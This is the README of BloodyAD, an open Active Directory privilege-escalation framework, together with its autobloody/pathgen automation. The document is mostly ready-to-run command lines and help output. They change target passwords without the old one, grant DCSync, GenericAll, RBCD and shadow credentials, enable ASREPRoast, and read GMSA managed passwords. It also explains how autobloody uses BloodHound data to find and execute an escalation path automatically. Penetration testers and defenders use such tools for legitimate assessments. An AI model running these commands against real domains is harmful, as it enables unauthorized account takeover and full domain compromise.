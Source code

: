 # BloodyAD Framework
BloodyAD is an Active Directory Privilege Escalation Framework, it can be used manually using `bloodyAD.py` or automatically by combining `pathgen.py` and `autobloody.py`.

This framework supports NTLM (with password or NTLM hashes) and Kerberos authentication and binds to LDAP/LDAPS/SAMR services of a domain controller to obtain AD privesc.

It is designed to be used transparently with a SOCKS proxy.

## bloodyAD
### Description
This tool can perform specific LDAP/SAMR calls to a domain controller in order to perform AD privesc.

### Requirements
The following are required:
- Python 3
- DSinternals
- Impacket
- Ldap3
Use the requirements.txt for your virtual environment: `pip3 install -r requirements.txt`

### Usage
Simple usage:
```ps1
python bloodyAD.py --host 172.16.1.15 -d MYDOM -u myuser -p :70016778cb0524c799ac25b439bd6a31 changePassword mytarget 'Password123!'
```

**Note:** You can find more examples on https://cravaterouge.github.io/

List of all available functions:
```ps1
[bloodyAD]$ python .\bloodyAD.py -h
usage: bloodyAD.py [-h] [-d DOMAIN] [-u USERNAME] [-p PASSWORD] [-k] [-c CERTIFICATE] [-s] [--host HOST]
                   {getObjectAttributes,setAttribute,addUser,addComputer,delObject,changePassword,addObjectToGroup,addForeignObjectToGroup,delObjectFromGroup,getChildObjects,setShadowCredentials,setGenericAll,setOwner,setRbcd,setDCSync,setUserAccountControl}
                   ...

Active Directory Privilege Escalation Framework

Main options:
  -h, --help            show this help message and exit
  -d DOMAIN, --domain DOMAIN
                        Domain used for NTLM authentication
  -u USERNAME, --username USERNAME
                        Username used for NTLM authentication
  -p PASSWORD, --password PASSWORD
                        Cleartext password or LMHASH:NTHASH for NTLM authentication
  -k, --kerberos
  -c CERTIFICATE, --certificate CERTIFICATE
                        Certificate authentication, e.g: "path/to/key:path/to/cert"
  -s, --secure          Try to use LDAP over TLS aka LDAPS (default is LDAP)
  --host HOST           Hostname or IP of the DC (ex: my.dc.local or 172.16.1.3)

Commands:
  {getObjectAttributes,setAttribute,addUser,addComputer,delObject,changePassword,addObjectToGroup,addForeignObjectToGroup,delObjectFromGroup,getChildObjects,setShadowCredentials,setGenericAll,setOwner,setRbcd,setDCSync,setUserAccountControl}
                        Function to call
```

Help text to use a specific function:
```ps1
[bloodyAD]$ python bloodyAD.py --host 172.16.1.15 -d MYDOM -u myuser -p :70016778cb0524c799ac25b439bd6a31 changePassword -h
usage: 
    Change the target password without knowing the old one using LDAPS or RPC
    Args:
        identity: sAMAccountName, DN, GUID or SID of the target (You must have write permission on it)
        new_pass: new password for the target
    
       [-h] [func_args ...]

positional arguments:
  func_args

optional arguments:
  -h, --help  show this help message and exit
  ```

### How it works
bloodyAD communicates with a DC using mainly the LDAP protocol in order to get information or add/modify/delete AD objects. A password cannot be updated with LDAP, it must be a secure connection that is LDAPS or SAMR. A DC doesn't have LDAPS activated by default because it must be configured (with a certificate) so SAMR is used in those cases.

### Useful commands
```ps1
# Get group members
python bloodyAD.py -u john.doe -d bloody -p Password512! --host 192.168.10.2 getObjectAttributes Users member 

# Get minimum password length policy
python bloodyAD.py -u john.doe -d bloody -p Password512! --host 192.168.10.2 getObjectAttributes 'DC=bloody,DC=local' minPwdLength

# Get AD functional level
python bloodyAD.py -u Administrator -d bloody -p Password512! --host 192.168.10.2 getObjectAttributes 'DC=bloody,DC=local' msDS-Behavior-Version

# Get all users of the domain
python bloodyAD.py -u john.doe -d bloody -p Password512! --host 192.168.10.2 getChildObjects 'DC=bloody,DC=local' user

# Get all computers of the domain
python bloodyAD.py -u john.doe -d bloody -p Password512! --host 192.168.10.2 getChildObjects 'DC=bloody,DC=local' computer

# Get all containers of the domain
python bloodyAD.py -u john.doe -d bloody -p Password512! --host 192.168.10.2 getChildObjects 'DC=bloody,DC=local' container

# Enable DONT_REQ_PREAUTH for ASREPRoast
python bloodyAD.py -u Administrator -d bloody -p Password512! --host 192.168.10.2 setUserAccountControl john.doe 0x400000

# Disable ACCOUNTDISABLE
python bloodyAD.py -u Administrator -d bloody -p Password512! --host 192.168.10.2 setUserAccountControl john.doe 0x0002 False

# Get UserAccountControl flags
python bloodyAD.py -u Administrator -d bloody -p Password512! --host 192.168.10.2 getObjectAttributes john.doe userAccountControl

# Read GMSA account password
python bloodyAD.py -u john.doe -d bloody -p Password512 --host 192.168.10.2 -s ldaps getObjectAttributes gmsaAccount$ msDS-ManagedPassword
```
## autobloody
### Description
This tool automate the AD privesc between two AD objects, the source (the one we own) and the target (the one we want) if a privesc path exists.
The automation is split in two parts:
- `pathgen.py` to find the optimal path for privesc using bloodhound data and neo4j queries.
- `autobloody.py` to execute the path found with `pathgen.py`

### Requirements
The following are required:
- Python 3
- DSinternals
- Impacket
- Ldap3
- BloodHound
- Neo4j python driver
- Neo4j with the [GDS library](https://neo4j.com/docs/graph-data-science/current/installation/)

### How to use it
First data must be imported into BloodHound (e.g using SharpHound or BloodHound.py) and Neo4j must be running.

Simple usage:
```ps1
pathgen.py -dp neo4jPass -ds 'OWNED_USER@ATTACK.LOCAL' -dt 'TARGET_USER@ATTACK.LOCAL' && autobloody.py -d ATTACK -u 'owned_user' -p 'owned_user_pass' --host 172.16.1.15
```

Full help for `pathgen.py`:
```ps1
$ python pathgen.py -h
usage: pathgen.py [-h] [--dburi DBURI] [-du DBUSER] -dp DBPASSWORD -ds DBSOURCE -dt DBTARGET [-f FILEPATH]

Active Directory Privilege Escalation Framework

optional arguments:
  -h, --help            show this help message and exit
  --dburi DBURI         The host neo4j is running on. Default: localhost.
  -du DBUSER, --dbuser DBUSER
                        Neo4j username to use
  -dp DBPASSWORD, --dbpassword DBPASSWORD
                        Neo4j password to use
  -ds DBSOURCE, --dbsource DBSOURCE
                        Case sensitive label of the source node (name property in bloodhound)
  -dt DBTARGET, --dbtarget DBTARGET
                        Case sensitive label of the target node (name property in bloodhound)
  -f FILEPATH, --filepath FILEPATH
                        File path for the graph path file (default is path.json)
```

Full help for `autobloody.py`:
```ps1
$ python autobloody.py -h
usage: autobloody.py [-h] [-d DOMAIN] [-u USERNAME] [-p PASSWORD] [-k] [-s {ldap,ldaps,rpc}] --host HOST [--path PATH]

Active Directory Privilege Escalation Framework

optional arguments:
  -h, --help            show this help message and exit
  -d DOMAIN, --domain DOMAIN
                        Domain used for NTLM authentication
  -u USERNAME, --username USERNAME
                        Username used for NTLM authentication
  -p PASSWORD, --password PASSWORD
                        Cleartext password or LMHASH:NTHASH for NTLM authentication
  -k, --kerberos
  -s , --secure         Try to use LDAP over TLS aka LDAPS (default is LDAP)
  --host HOST           Hostname or IP of the DC (ex: my.dc.local or 172.16.1.3)
  --path PATH           Path file (to generate with pathgen.py)

```

### How it works
First `pathgen.py` generates a privesc path using the Dijkstra's algorithm implemented into the Neo4j's GDS library.
The Dijkstra's algorithm allows to solve the shortest path problem on a weighted graph. By default the edges created by bloodhound don't have weight but a type (e.g MemberOf, WriteOwner). A weight is then added to each edge accordingly to the type of the edge and the type of the node reached (e.g user,group,domain).

Once a path is generated and stored as a json file, `autobloody.py` will connect to the DC and execute the path and clean what is reversible (everything except password change).
